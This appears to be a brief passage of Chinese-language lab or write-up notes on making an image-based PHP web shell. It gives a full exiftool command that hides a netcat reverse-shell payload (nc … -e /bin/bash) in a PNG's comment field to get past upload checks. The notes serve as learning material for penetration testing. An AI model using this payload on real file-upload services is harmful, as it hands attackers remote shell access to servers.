 - 制作图片马，文中直接使用的`echo >>`追加，同样原理Windows下使用`copy`来追加，或使用010editor等二进制编辑器来追加，但这些都可能涉及图片完整性问题；可以使用exiftool，`exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' test.php.png`，保持图片完整性。
- PHP使用`php -a`获得交互来测试代码。